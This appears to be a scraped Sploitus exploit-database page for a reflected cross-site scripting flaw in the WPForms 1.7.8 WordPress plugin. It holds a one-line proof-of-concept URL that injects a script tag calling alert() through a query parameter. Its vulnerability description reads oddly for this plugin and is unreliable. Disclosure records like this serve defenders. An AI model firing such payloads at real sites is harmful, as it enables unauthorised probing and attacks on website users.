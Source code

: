```yaml
---
title: WPForms 1.7.8 - Cross-Site Scripting Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38396&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-31
fetch_date: 2025-10-04T11:11:14.088101
---
```


# WPForms 1.7.8 - Cross-Site Scripting Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WPForms 1.7.8 - Cross-Site Scripting Vulnerability

2023-03-30 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38396
# Exploit Title: WPForms 1.7.8 - Cross-Site Scripting (XSS)
# Date: 2022-12-05
# Author: Milad karimi
# Software Link: https://wordpress.org/plugins/wpforms-lite
# Version: 1.7.8
# Tested on: Windows 10
# CVE: N/A

1. Description:
This plugin creates a WPForms from any post types. The slider import search feature and tab parameter via plugin settings are vulnerable to reflected cross-site scripting.

2. Proof of Concept:
https://$target/ListTable.php?foobar=<script>alert("Ex3ptionaL")</script>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)